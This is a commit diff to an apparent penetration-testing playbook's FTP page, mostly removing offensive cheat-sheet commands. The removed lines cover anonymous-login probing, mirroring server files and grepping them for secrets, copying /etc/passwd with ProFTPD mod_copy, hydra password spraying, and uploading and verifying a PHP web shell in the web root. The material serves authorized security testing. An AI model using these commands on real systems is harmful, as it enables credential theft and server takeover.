

Before and after one commit to stafford-m/pt-playbook, an MkDocs documentation site: the page built from docs/services/ftp.md, in a window 1280 px wide and 1400 px high, scrolled down 394 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fixed up ftp

````diff
--- a/docs/services/ftp.md
+++ b/docs/services/ftp.md
@@ -20,78 +20,8 @@ STAT .           # same listing, control channel only
 CWD /incoming    # enumerate common dirs by hand: /pub /upload /incoming /files /backup /www /home
 CDUP
 get
-```
 
-## 0. Fast Path (try these first)
-
-Credential reuse: if you have creds from another service (SMB, HTTP, etc.), try them on FTP before reaching for Hydra.
-
-Test anonymous login across all common variants in one pass:
-```bash
-for u in anonymous ftp; do
-  echo -e "USER $u\r\nPASS $u@\r\nQUIT\r" | timeout 5 nc $ip 21
-done
-```
-
-Passive mode fix (use if listings hang / "425 Can't open data connection"):
-```bash
-lftp -u $un,$pw -e "set ftp:passive-mode on; ls; bye" $ip
-```
-
-## 1. Banner Grab & Unauthenticated Enumeration
-
-netcat grab
-```bash
-nc -nv $ip 21
-```
-netcat grab with timeout
-```bash
-timeout 5 nc $ip 21
-```
-
-If SSL/TLS is enabled on this port (implicit/explicit ftps - implicit is normally on 990)
-```bash
-openssl s_client -connect $ip:21 -starttls ftp
-```
-
-curl - Works but noisy
-```bash
-curl -v ftp://$ip:21/ 2>&1 | head -n 5
-```
-
-Anonymous login: anonymous:anonymous
-```bash
-curl -s --max-time 8 ftp://anonymous:anonymous@$ip/
-```
-
-Will report if root is writable
-```bash
-nmap -p 21 --script ftp-anon $ip
-```
-
-Enumerate FTP features
-```bash
-nmap -p 21 --script ftp-features $ip
-```
-
-enumerate common directories
-```bash
-gobuster dir -u ftp://$ip -w pslist.txt
-```
-
-All NSE scripts
-```bash
-nmap -p21 -sV --script "*ftp*" $ip
-```
-
-## 2. Authenticated Enumeration
-
-Login over TLS (if plaintext refused or FTPS detected):
-```bash
-# Explicit FTPS (AUTH TLS)
-lftp -u $un,$pw -e "set ftp:ssl-force true; set ftp:ssl-protect-data true; ls; bye" $ip
-# Implicit FTPS (port 990 or given port)
-lftp -u $un,$pw -e "set ftp:ssl-force true; set ftp:ssl-protect-data true; open ftps://$ip:990; ls; bye"
+**ALWAYS list with `-a` — dotfiles (`.htaccess`, `.bash_history`, `.ssh/`, backups) are the highest-yield FTP find.**
 ```
 
 ### Basic commands on signed in
@@ -106,79 +36,20 @@ DELE probe.txt              -> cleanup
 RMD .testdir
 ```
 
-**ALWAYS list with `-a` — dotfiles (`.htaccess`, `.bash_history`, `.ssh/`, backups) are the highest-yield FTP find.**
-
-Pull and grep
+If SSL/TLS is enabled on this port (implicit/explicit ftps - implicit is normally on 990)
 ```bash
-lftp -u anonymous,anonymous@ $IP -e "set ftp:ssl-allow no; mirror --parallel=2 / ./ftp_loot; bye"
-grep -riE 'pass|pwd|user|key|token|secret' ftp_loot/
+openssl s_client -connect $ip:21 -starttls ftp
 ```
 
-Single-file pull
+Login over TLS (if plaintext refused or FTPS detected):
 ```bash
-curl -s ftp://$un:$pw@$ip/path/to/file -o file
+# Explicit FTPS (AUTH TLS)
+lftp -u $un,$pw -e "set ftp:ssl-force true; set ftp:ssl-protect-data true; ls; bye" $ip
+# Implicit FTPS (port 990 or given port)
+lftp -u $un,$pw -e "set ftp:ssl-force true; set ftp:ssl-protect-data true; open ftps://$ip:990; ls; bye"
 ```
 
-wget fallback recursion (if mirror is blocked)
-```bash
-wget -r --ftp-user=$un --ftp-password=$pw ftp://$ip/
-```
-
-ProFTPD mod_copy — copy arbitrary server file to a readable location:
-```bash
-SITE CPFR /etc/passwd
-SITE CPTO /var/www/html/passwd.txt
-GET passwd.txt
-```
-
-## 3. Password Spraying / Bruteforcing
-
-*Last resort — try anon + known creds first, brute force is usually a time sink.*
-
-Spray to test passwords
-```bash
-hydra -L users.txt -p 'Spring2026!' -t 4 -W 3 -o spray_pass1.txt ftp://$ip
-```
-f to exit on hit
-```bash
-hydra -L users.txt -p pass.txt -f -t 4 -W 3 -o spray_pass1.txt ftp://$ip
-```
-
-Null/same-as-user/reversed logins (cheap first pass)
-```bash
-hydra -L users.txt -P pass.txt -e nsr -t 4 ftp://$ip
-```
-
-## 5. Quick Wins
-
-TYPE I
-```bash
-TYPE I                     # <-- BEFORE upload. non-negotiable.
-CWD /var/www/html
-STOR s.php
-SITE CHMOD 755 s.php
-```
-
-Verify the shell landed (don't assume CHMOD worked):
-```bash
-curl -s http://$ip/s.php
-```
-
-If `SITE CHMOD` returned 200 earlier, perms are controllable; otherwise many servers already write files executable. Always confirm mapping first:
-```bash
-PWD              # note landing dir — does it map to a web root?
-```
-
-### Default Credentials:
-```
-anonymous:anonymous@
-anonymous:anonymous
-anonymous:<anything>
-      ftp:ftp
-      ftp:<email>
-```
-
-## 6. Config Paths
+## Config Paths
 
 vsftpd (Very Secure FTP)
 ```text
@@ -216,7 +87,7 @@ ProFTPD       -> mod_copy abuse (SITE CPFR/CPTO)
 FileZilla     -> settings.xml often holds plaintext creds (MySQL/other)
 ```
 
-## 7. Post-Exploit / Pivot
+## Post-Exploit / Pivot
 
 - FTP to web-shell chain → see HTTP notes
 - File disclosure → see Linux PrivEsc / TTY notes
````
Also changed, not shown: other parts of docs/services/ftp.md (+1 -1 lines), docs/generic/bruteforcing.md (added, +14 -0 lines), docs/generic/scans.md (added, +53 -0 lines), docs/index.md (deleted, +0 -13 lines).
